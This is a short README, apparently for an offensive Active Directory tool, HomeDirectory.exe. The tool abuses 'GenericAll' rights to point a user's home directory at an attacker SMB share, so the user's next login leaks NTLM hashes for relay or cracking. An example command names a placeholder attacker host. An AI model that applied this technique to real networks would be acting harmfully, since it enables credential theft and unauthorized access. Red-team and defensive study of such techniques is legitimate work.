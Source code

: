 # HomeDirectory
Leverage existing AD rights ('GenericAll') over an object ie: user to set their profile to an attacker smb server ie: ntlmrelayx to dump hashes, relay, crack.

Usage: HomeDirectory.exe <username> <drive letter> <attacker share>   
Example: HomeDirectory.exe jblogg N \\attackerip\bogus_share
    * targets next login will trigger NTLM auth when trying to retrieve profile from attackers smb server
  
 
